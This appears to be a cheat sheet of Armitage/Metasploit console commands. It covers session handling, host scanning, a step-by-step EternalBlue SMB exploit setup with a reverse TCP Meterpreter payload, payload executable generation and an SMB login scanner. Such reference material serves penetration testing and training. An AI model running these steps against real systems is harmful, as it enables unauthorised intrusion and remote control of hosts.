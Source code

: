 ## Basic Commands

-   `help`: Display a list of available commands
-   `use`: Use a specific exploit or module
-   `show options`: Display the options for a module
-   `set`: Set an option value for a module
-   `exploit`: Run the exploit
-   `back`: Go back to the previous context
-   `exit`: Exit Armitage

## Working with Hosts

-   `hosts`: List the hosts in the workspace
-   `scan`: Scan a range of IP addresses for vulnerabilities
-   `services`: List the services running on a host
-   `vulns`: List the vulnerabilities on a host

## Working with Sessions

-   `sessions`: List active sessions
-   `sessions -i`: Interact with a specific session
-   `sessions -u`: Upgrade a command shell to a Meterpreter session
-   `sessions -k`: Terminate a session

## Working with Exploits

-   `use exploit/windows/smb/ms17_010_eternalblue`: Use the EternalBlue SMB exploit
-   `set payload windows/meterpreter/reverse_tcp`: Set the payload to a reverse TCP Meterpreter shell
-   `set LHOST <local IP address>`: Set the local IP address to listen on
-   `set LPORT <local port>`: Set the local port to listen on
-   `exploit -j`: Run the exploit in the background

## Working with Payloads

-   `use payload windows/meterpreter/reverse_tcp`: Use the reverse TCP Meterpreter payload
-   `set LHOST <local IP address>`: Set the local IP address for the payload to connect to
-   `set LPORT <local port>`: Set the local port for the payload to connect to
-   `generate`: Generate an executable file with the payload embedded

## Working with Scanners

-   `use auxiliary/scanner/smb/smb_login`: Use the SMB login scanner
-   `set RHOSTS <IP range>`: Set the range of IP addresses to scan
-   `set USERNAME <username>`: Set the username to use for the scan
-   `set PASSWORD <password>`: Set the password to use for the scan
-   `run`: Run the scanner